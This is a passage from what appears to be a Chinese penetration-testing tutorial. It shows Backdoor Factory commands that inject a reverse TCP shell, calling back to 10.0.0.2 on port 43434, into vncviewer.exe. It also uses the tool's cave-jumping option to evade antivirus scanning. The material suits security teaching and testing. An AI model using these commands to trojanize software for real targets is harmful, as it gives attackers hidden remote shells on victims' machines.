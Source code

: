 ![](img/28f499f6-38d8-4c5d-a6b7-98ee4b56d76b.png)

运行 Backdoor Factory 并在`10.0.0.2`上的端口`43434`创建一个远程 shell 的代码如下。跳洞选项将您的代码传播到可执行文件中的空白，以进一步混淆杀毒软件扫描：

```
backdoor-factory -cave-jumping -f /usr/share/windows-binaries/vncviewer.exe -H 10.0.0.2 -P 43434 -s reverse_shell_tcp  
```

如果您在 shellcode 选择中出现错误，应用程序会显示您的选择：

![](img/c25fd43e-5741-4d32-bb29-1b3ffa7e30af.png)

```
backdoor-factory -cave-jumping -f /usr/share/windows-binaries/vncviewer.exe -H 10.0.0.2 -P 43434 -s reverse_shell_tcp_inline 
```
